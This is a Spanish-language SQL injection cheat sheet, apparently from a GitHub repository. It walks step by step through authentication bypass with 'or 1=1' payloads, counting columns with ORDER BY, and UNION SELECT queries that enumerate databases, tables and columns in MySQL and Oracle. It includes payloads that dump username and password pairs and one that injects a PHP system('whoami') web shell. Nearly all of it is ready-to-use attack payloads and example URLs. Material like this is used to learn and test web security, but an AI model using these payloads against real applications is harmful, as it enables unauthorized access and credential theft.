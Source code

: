 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
#### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>
**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>
- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>
+ Utilizando una inyección de código hacia un directorio como **/etc/hosts** o **/etc/passwd**
<p align="center">
  <img src="https://i.postimg.cc/1X0nT1WV/load-file-sql.png" alt="sql"/>
</p>
---

+ **Recupera las bases de datos disponibles en el servidor - LISTAR DBS**
```sql
//Ejemplo por consola
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,group_concat(schema_name) FROM information_schema.schemata-- -
```
```SQL
//Esto va en la URL
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
```
- **Recupero "todas" las tablas creadas en cada base de datos. - LISTAR TABLAS**

```SQL
//Esto va en la URL
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```
-  LISTAR COLUMNA
<p align="center">
  <img src="https://i.postimg.cc/7ZT8y18D/tabla-y-dbs.png" alt="sql"/>
</p>

```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -
```
information_schema.tables > Muestra todas las tablas

- Leer todos los nombres de usuario y contraseña de una tabla
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,password FROM users-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>

---

## Tipos de inyecciones y "paso a paso".

##### 1.er Paso:
### ' ORDER BY [num_columns]-- -

Determina `' ORDER BY [num]-- -` el número de columnas en la tabla de la base de datos.
<p align="center">
  <img src="https://i.postimg.cc/N0GGQs8R/sqli.png" alt="sqli"/>
</p>
+ Ejemplo.

```url
https://example.com/filter?category=gift' ORDER BY 1-- -
https://example.com/filter?category=gift' ORDER BY 2-- -
https://example.com/filter?category=gift' ORDER BY 3-- -
https://example.com/filter?category=gift' ORDER BY 4-- -
```
<p align="center">
  <img src="https://i.postimg.cc/W1tQcpBz/image.png" alt="sql"/>
</p>
**"Al obtener un error se sabe que el número anterior es el número de columnas."**

##### 2.do Paso:

### ' UNION SELECT [NULL x cant_columns]-- -
<p align="center">
  <img src="https://i.postimg.cc/76KsrqhX/imagen.png" alt="sql"/>
</p>

- Ejemplos
1. Descubrir los nombres de las DB.
```SQL
SELECT * FROM tabla UNION SELECT schema_name,2,3,4 FROM information_schema.schemata;-- -;
```
2. Descubrir las tablas creadas dentro de cada DB.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables;-- -;
```
3. Descubrir las tablas dentro de una DB específica.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='name_DB';-- -;
```
4. Ver las columnas de una tabla.
```SQL
SELECT * FROM tabla UNION SELECT column_name, 2, 3, 4 FROM information_schema.columns WHERE table_name='users' AND table_schema='name_DB';-- -;
```
5. Ver los datos dentro de una DB
```SQL
SELECT username,password FROM users UNION SELECT username,password FROM login.users-- -
```
+ Concatenar
```SQL
SELECT username,password FROM users UNION SELECT NULL,username||':'||password FROM users-- -
```
### Oracle
```SQL
' UNION SELECT NULL,NULL from dual-- -
```
```SQL
' UNION SELECT NULL,banner from v$version-- -
```
- Todas las tablas existentes
```SQL
' UNION SELECT NULL,table_name FROM all_tables-- -
```
+ Usuario que posee un esquema de DB.
	+  Específico que es el propietario de todos los objetos dentro de ese esquema, como tablas, vistas, índices, procedimientos almacenados, etc.
```SQL
' UNION SELECT NULL,owner FROM all_tables-- -
```
```SQL
' UNION SELECT NULL,table_name FROM all_tables WHERE owner=''-- -
# En caso de especificar uno en concreto.
```
+ Muestra todas las columnas de una tabla
```SQL
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name=''-- -
```
+ Ver los datos de cada columna}
```SQL
' UNION SELECT NULL,username||':'||password FROM nombre_tabla-- -
```